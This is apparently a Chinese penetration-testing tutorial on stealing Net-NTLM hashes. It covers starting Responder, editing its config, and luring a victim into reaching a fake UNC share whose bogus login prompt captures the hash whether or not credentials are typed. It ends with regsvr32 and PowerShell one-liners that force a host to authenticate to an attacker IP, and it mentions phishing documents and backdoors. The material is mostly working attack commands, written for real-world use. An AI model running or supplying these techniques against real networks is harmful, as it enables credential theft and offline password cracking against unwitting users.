 通常我们采用网络欺骗技术，配合受害者交互的方式窃取到是Net-NTLM Hash。这类hash并不能直接用于`pass-the-hash`攻击，但可以通过暴力破解的方式来获取明文密码。关于更多获取`Net-NTML HASH`的技巧，可以参考

常用工具：

- Responder
- Metasploit

### Responder

`responder`可以伪造服务，对相关请求进行响应。开启命令：

```bash
responder -I eth0
```

实战环境下，我们应该修改`/etc/responder/Responder.conf`配置文件，关闭其中的一些不必要的服务，从而减少网络流量，并产生针对性日志，如：

```bash
; Servers to start
SQL = Off
SMB = On
Kerberos = On
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = On
HTTPS = On
DNS = On
LDAP = On
```

针对测试而言，我们还可以设置`Challenge`值，以便观察流量格式：

```
Challenge = 1122334455667788
```

开启监听后，当用户进行了交互，如在资源管理器中以`UNC`路径形式访问伪造的服务器：

![](https://raw.githubusercontent.com/ssooking/imgbed/master/img/yushentou-ntml-hash/20181204130140.png)

此时会弹出虚假认证界面，此时无论受害者是否输入凭据，我们都已经获取了`NET NTML Hash`。`responder`默认会将日志保存在`/usr/share/responder/logs`下，hash记录文件以`HTTP-NTLMv2`   `SMBv2-NTLMv2`等前缀开头。

![](https://raw.githubusercontent.com/ssooking/imgbed/master/img/yushentou-ntml-hash/20181204130759.png)

在渗透测试中，我们还可以通过其他技巧获取`Net-NTML Hash`，如：

- 命令执行：`regsvr32`、`powershell`等
- 钓鱼文档：doc、docx、pdf
- 后门设置：

例：

```
regsvr32 /s /u /i://17.10.0.1/@abc hello.dll

powershell -c "Invoke-Item \\17.10.0.1\aa"
powershell -nop -exec bypass -c "Invoke-Item \\17.10.0.1\aa"
Invoke-Item \\192.168.0.1\aa
Get-Content \\192.168.0.1\aa
Start-Process \\192.168.0.1\aa 
```

